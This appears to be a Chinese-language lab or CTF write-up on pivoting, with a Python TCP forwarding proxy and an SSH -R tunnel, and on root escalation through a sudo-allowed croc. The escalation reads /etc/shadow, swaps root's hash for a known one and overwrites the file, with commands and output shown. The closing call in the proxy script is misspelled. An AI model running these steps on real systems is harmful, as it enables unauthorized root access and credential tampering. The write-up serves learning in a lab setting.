


这次主要学习两种不同的内网突破，再加1个提权手法：

## 内网突破

### `noneofyour`

使用的 `python` 的 `socket` 进行内网突破，其中两个核心的方法：

```python
def pipe(source, destination):
    while True:
        try:
            data = source.recv(4096)
            if not data:
                break
            destination.sendall(data)
        except:
            break
    source.close()
    destination.close()
```

`source.recv` 用于接收数据，`destination.sendall` 用于发送数据。

这个方法的功能：通过无限循环将 `source` 套字节中的数据接收，并全部转发给`destination` 套字节，如果数据为空，或出现报错，这个循环立马退出，并关闭这两个套字节。

```python
def start_proxy(local_port, remote_host, remote_port):
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(('0.0.0.0', local_port))
    server.listen(10)
    print(f"[*] Proxying 0.0.0.0:{local_port} -> {remote_host}:{remote_port}")
    
    while True:
        client_sock, addr = server.accept()
        remote_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        remote_sock.connect((remote_host, remote_port))
        
        threading.Thread(target=pipe, args=(client_sock, remote_sock)).start()
        threading.Thread(target=pipe, args=(remote_sock, client_sock)).start()
```

1. **疑问1：为何第一个套字节 用 bind ，而 第二个套字节 用 connect 。** 

`server.bind(('ip', port))`: 代理程序自己要监听的端口，`server.bind(('0.0.0.0', local_port))` : 将代理程序挂载到本机的 `8888` 端口上。

`server.connect(('ip', port))`: 代理程序要主动连过去的目标服务，`remote_sock.connect((remote_host, remote_port))`: 代理主动连接 `127.0.0.1：9876` 目标服务。

- **谁负责监听，谁就 bind**
- **谁负责主动发起连接，谁就 connect**

2. **疑问2：为何第一个套字节要用到 accept , 而第二个套字节没有用到 accept。**

* `server` 是 监听 `socket`, 它的职责是`被动等待别人连进来`。
* `remote_sock` 是 主动连接 `socket`，它的职责是主动连接别人。

所以这里必须有：

```
client_sock, addr = server.accept()
```

原因是：

- bind() 只是绑定端口
- listen() 只是进入监听状态
- 真正“接收一个客户端连接”这一步，必须靠 accept()

accept() 做了两件事：

- 取出一个已经到来的客户端连接
- 返回一个新的已连接 `socket：client_sock`

而后面的：

```
remote_sock.connect((remote_host, remote_port)) 
```

不需要 accept()，因为：

- 这里你是**主动发起连接**
- connect() 成功后，remote_sock 自己就已经是“已连接状态”了。

3. **疑问3：为和 `server.accept()` 和 `remote_sock.connect` 要放在 `while True` 循环内？**

 代理程序要持续接收多个客户端，不是只服务一次。

**已知事实**
这一段放在 while True: 里，表示：

- 接收一个客户端：server.accept()
- 为这个客户端连上远端：remote_sock.connect(...)
- 为这一对连接启动转发线程
- 然后**回到开头继续等下一个客户端**

如果**不放进无限循环**：

- 程序只会 accept() 一次
- 只处理**一个客户端连接**
- 那个客户端处理完后，程序后面的监听逻辑就没了

**为什么线程创建也要放循环里**
因为**每来一个新客户端**，都需要：

- 一个新的 client_sock
- 一个新的 remote_sock
- 一组新的转发线程

这些都是“**按连接创建**”的，不是程序启动时只创建一次。

**可以这样理解**

- while True：负责不停“接客”
- accept()：接到一个新客户
- connect()：帮这个客户连到目标服务
- 两个 Thread()：专门服务这个客户的数据转发

4. 疑问4：`server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)` 的作用?

- `setsockopt(...)`：设置 socket 选项
- `socket.SOL_SOCKET`：表示“这一层是 socket 通用层”的选项
- `socket.SO_REUSEADDR`：表示“允许重用本地地址”
- 1：开启这个选项；如果写 0 就是关闭

**它的作用**
主要是为了避免你程序刚退出、又立刻重启时，出现：

```
OSError: [WinError 10048] ... 
```

也就是“端口看起来还被占着”。

**为什么会这样**
TCP 连接关闭后，端口有时不会立刻完全释放，系统可能让它暂时停留在 TIME_WAIT 等状态。
这时如果你马上重新 bind() 同一个端口，可能失败。

**加了 SO_REUSEADDR 之后**

- 端口在某些“刚用过”的情况下也能更快重新绑定
- 对调试、反复重启代理程序很有用

完整代码：

```python
import socket
import threading


def pipe(source, destination):
    while True:
        try:
            data = source.recv(4096)
            if not data:
                break
            destination.sendall(data)
        except:
            break
    source.close()
    destination.close()
    
def start_proxy(local_port, remote_host, remote_port):
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(('0.0.0.0', local_port))
    server.listen(10)
    print(f"proxy: 0.0.0.0:{local_port} -> {remote_host}:{remote_port}")
    
    while True:
        client_sock, port = server.accept()
        remote_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        remote_sock.connect((remote_host, remote_port))
        
        threading.Thread(target=pipe, args=(client_sock, remote_sock)).start()
        threading.Thread(target=pipe, args=(remote_sock, client_sock)).start()
        
if __name__ == '__main__':
    start_proxt(8888, '127.0.0.1', 9876)
```

### `Echo`

通过ssh命令进行端口转发：

* -N

  * 不执行远程 shell / 命令
  * 只建立隧道

* -R

  * `Remote Forwarding`

  * 在**远程 SSH 服务器一侧** 开监听端口

  * 格式：

    ```
    -R [远程监听地址]:[远程监听端口]:[本地目标地址]:[本地目标端口]
    ```

坑：SSH 服务默认行为：`sshd` 默认通常只允许远程转发绑定到 `loopback`。也就是 `GatewayPorts` 没开，或者不是 `clientspecified/yes`。

我们要先在`/etc/sshd_config`更改 `GatewayPorts`选项：

```sshd
GatewayPorts yes
```

或

```sshd
GatewayPorts clientspecified
```

两者的区别：

- yes
  - 远程转发端口会绑定到通配地址，通常相当于对外开放
- `clientspecified`
  - 允许你在 -R 里自己指定绑定地址
  - 你写 `0.0.0.0:39666:...` 才会真正按 0.0.0.0 绑定

**更推荐**

```
GatewayPorts clientspecified 
```

因为它更符合你现在这条命令的写法。

**改完后还要做的事**

- 重启 sshd
- 重新建立这条 ssh -R ... 隧道
- 再检查 39666 是否监听在 0.0.0.0

完整的命令：

```sh
silo@GameShell:~$ ssh -N -R 0.0.0.0:39666:127.0.0.1:9876 root@192.168.56.101
root@192.168.56.101's password: 
# 终端1
root@kali:/etc/ssh# ss -tupln | grep 39666
tcp   LISTEN 0      128          0.0.0.0:39666      0.0.0.0:*    users:(("sshd-session",pid=13376,fd=10))
# 终端2
```



## 提权手法

切换`croc`模式为经典模式以简化传输过程：

```sh
eviden@GameShell:/$ sudo croc --classic
Classic mode is currently DISABLED.

Please note that enabling this mode will make the shared secret visible
on the host's process list when passed via the command line. On a
multi-user system, this could allow other local users to access the
shared secret and receive the files instead of the intended recipient.

Do you wish to continue to enable the classic mode? (y/N) y

Classic mode ENABLED.

To send and receive, use the code phrase:

  Send:    croc send --code *** file.txt

  Receive: croc ***
```

设置一个中转端口：

```sh
eviden@GameShell:/$ croc relay --port 9999 &
[1] 467
[info]      2026/05/02 05:30:26 starting croc relay version v10.2.7
[info]  2026/05/02 05:30:26 starting TCP server on :9999
[info]  2026/05/02 05:30:26 starting TCP server on :10000
[info]  2026/05/02 05:30:26 starting TCP server on :10001
[info]  2026/05/02 05:30:26 starting TCP server on :10002
[info]  2026/05/02 05:30:26 starting TCP server on :10003
```

下载shadow：

```sh
eviden@GameShell:~$ sudo croc --relay "127.0.0.1:9999" send /etc/shadow
Sending 'shadow' (874 B)         
Code is: 5701-salsa-kimono-happy

On the other computer run:
(For Windows)
    croc --relay 127.0.0.1:9999 5701-salsa-kimono-happy
(For Linux/macOS)
    CROC_SECRET="5701-salsa-kimono-happy" croc --relay 127.0.0.1:9999 
    
eviden@GameShell:~$ croc --relay "127.0.0.1:9999" 5701-salsa-kimono-happy
Accept 'shadow' (874 B)? (Y/n) y

Receiving (<-127.0.0.1:42690)
 shadow 100% |████████████████████| (874/874 B, 86 kB/s)

eviden@GameShell:~$ openssl passwd "123456"
PpV/ZwGClqM6w
```

修改为：

```
eviden@GameShell:~$ cat shadow
root:PpV/ZwGClqM6w:20409:0:99999:7:::
daemon:*:20166:0:99999:7:::
bin:*:20166:0:99999:7:::
sys:*:20166:0:99999:7:::
sync:*:20166:0:99999:7:::
games:*:20166:0:99999:7:::
man:*:20166:0:99999:7:::
lp:*:20166:0:99999:7:::
mail:*:20166:0:99999:7:::
news:*:20166:0:99999:7:::
uucp:*:20166:0:99999:7:::
proxy:*:20166:0:99999:7:::
www-data:*:20166:0:99999:7:::
backup:*:20166:0:99999:7:::
list:*:20166:0:99999:7:::
irc:*:20166:0:99999:7:::
gnats:*:20166:0:99999:7:::
nobody:*:20166:0:99999:7:::
_apt:*:20166:0:99999:7:::
systemd-timesync:*:20166:0:99999:7:::
systemd-network:*:20166:0:99999:7:::
systemd-resolve:*:20166:0:99999:7:::
systemd-coredump:!!:20166::::::
messagebus:*:20166:0:99999:7:::
sshd:*:20166:0:99999:7:::
silo:$6$X1SpLnuy/i1LvtTB$yJO4OtX/i7Ma5Uvv0L8AmUnuoHb53jQ/AJl0DMZf/evSEbNRLHXm9YpECG2TzOixcOlDpVhqyL.ENUSEdQcEd/:20409:0:99999:7:::
eviden:!:20409:0:99999:7:::
```

覆盖/etc/shadow:

```sh
eviden@GameShell:~$ croc --relay 127.0.0.1:9999 send ./shadow
Sending 'shadow' (874 B)         
Code is: 1655-candid-archer-carbon

On the other computer run:
(For Windows)
    croc --relay 127.0.0.1:9999 1655-candid-archer-carbon
(For Linux/macOS)
    CROC_SECRET="1655-candid-archer-carbon" croc --relay 127.0.0.1:9999 
    
eviden@GameShell:~$ sudo croc --relay 127.0.0.1:9999 --overwrite --out /etc
Enter receive code: 1655-candid-archer-carbon
Accept 'shadow' (874 B)? (Y/n) y

Receiving (<-127.0.0.1:42030)
 shadow 100% |████████████████████| (874/874 B, 42 kB/s)
```


